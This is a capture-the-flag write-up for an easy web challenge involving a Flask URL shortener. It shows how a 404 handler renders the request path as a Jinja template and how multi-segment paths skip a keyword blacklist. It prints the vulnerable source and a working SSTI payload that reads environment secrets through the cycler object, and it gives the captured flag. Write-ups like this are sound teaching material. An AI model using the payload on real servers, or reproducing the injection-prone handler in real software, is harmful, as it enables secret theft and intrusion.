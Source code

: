 ```
            ▗▄▄▄▖▗▞▀▚▖▄▄▄▄  ▄▄▄▄  █  ▄▄▄     ▐▌▗▞▀▚▖
              █  ▐▛▀▀▘█ █ █ █   █ █ █   █    ▐▌▐▛▀▀▘
              █  ▝▚▄▄▖█   █ █▄▄▄▀ █ ▀▄▄▄▀ ▗▞▀▜▌▝▚▄▄▖
              █             █     █       ▝▚▄▟▌     
                            ▀                       
```

**Category:** Web
**Level:** Easy
**Instance:** http://bmnzdgnsz2l4.playat.flagyard.com
> We don't trust any URL shortener, so we decided to make our own.

**Flag:** FlagY{a968fb526ce40dd7ccc9ad028ac3584d}

# WHAT EVEN IS THIS

The app takes whatever we type in the URL, slaps it into an HTML template string, and hands that string to Jinja to render. When the app can't find a short code it doesn't just show a plain 404. Instead, it stitches whatever path we typed into a template string and asks Jinja to render it.

Furthermore, the app tries to be clever with a blacklist, but only in one place, and only for single-segment short codes. If we use a multi-part path (like `/a/{{...}}/b`), the blacklist never gets invited to the party, which means we go straight to the 404 page, which renders our input as a template.

# WHY THIS IS A PROBLEM (TL;DR)

These templates aren't just for pretty HTML: Jinja templates can access Python objects. From there you can reach `os.environ` and other internals. That's how secrets (like `DYN_FLAG`) can be printed on a 404 page.

**TL;DR:** one tiny path → raw template render → secret leakage

![boom](/assets/images/boom.gif)

# SOLUTION

First things first, we examined how the app worked. *(See app.py)*

Now, let's focus on the `short_code` route. Any one-segment path (e.g. `/abc`) will match this route. ***BUT***, paths with additional slashes like `/a/b` don't match this route. So, Flask will try to match other rules and eventually call the 404 handler. This means, the routing creates *two different code paths* for short-looking URLs vs multi-segment paths. Furthermore, the blacklist and DB lookup live inside `redirect_url`. As such, multi-segment requests never run that blacklist. The blacklist itself is gameable as it is just against the words listed. Moreover, if the `short_code` is known, the app redirects. If not, it raises a 404 which triggers the custom 404 handler. The most important bit of all: the 404 path is reached *whenever* the shortcode is unknown or when the request didn’t hit `redirect_url` at all.

```python
@app.route('/<short_code>')
def redirect_url(short_code):
    blacklist = ['{{', 'class', 'attr', 'mro', '[', 'import', 'os', 'system', 
                'subclasses', 'mro', 'request', 'args', 'eval', 'exec']
    
    for word in blacklist:
        if word in short_code.lower():
            return "Forbidden characters in URL!"
    
    db = get_db()
    url = db.execute('SELECT original_url FROM urls WHERE short_code = ?', 
                    (short_code,)).fetchone()
    db.close()
    
    if url:
        return redirect(url['original_url'])
    abort(404)
```

Now, now, let me direct your focus to our next star of the show, our precious `errorhandler`. The handler builds a template string by concatenating untrusted path content straight into a template source, then calls `render_template_string` to render it. That is the crux: the template source itself is attacker-controlled. This is because `render_template_string` will parse and evaluate Jinja template expressions inside that source. If path contains template delimiters or expressions, Jinja will try to evaluate them server-side. That’s classic SSTI (Server-Side Template Injection).

```python
@app.errorhandler(404)
def page_not_found(e):
    path = request.path.lstrip('/')
    template = '''
        <h1>404 - Page Not Found</h1>
        <p>The requested URL /''' + path + ''' was not found on this server.</p>
        <p>Please check the URL or go back to the <a href="/">homepage</a>.</p>
    '''
    return render_template_string(template), 404
```

So, let's take what we know and craft the payload. As we can see, the admin flag is coming from `os.getenv('DYN_FLAG', 'FlagY{test_flag}')`.

```python
@app.route('/dashboard', methods=['GET', 'POST'])
@login_required
def dashboard():
    # the rest of the code
    flag_section = ''
    if session.get('username') == 'admin':
        flag = os.getenv('DYN_FLAG', 'FlagY{test_flag}')
        flag_section = f'<div class="admin-section"><h3>Admin Section</h3><p>Flag: {flag}</p></div>'
    
    return render_template('dashboard.html', urls=urls, flag_section=flag_section)
```

With Jinja, we can reach os via the built-in cycler object: `/a/{{cycler.__init__.__globals__['os'].environ['DYN_FLAG']}}/b` (or in a more URL way, `/a/%7B%7Bcycler.__init__.__globals__%5B'os'%5D.environ%5B'DYN_FLAG'%5D%7D%7D/b`)

![templode-flag](assets/templode-flag.png)

![well-hello-beautiful](/assets/images/well-hello-beautiful.gif)
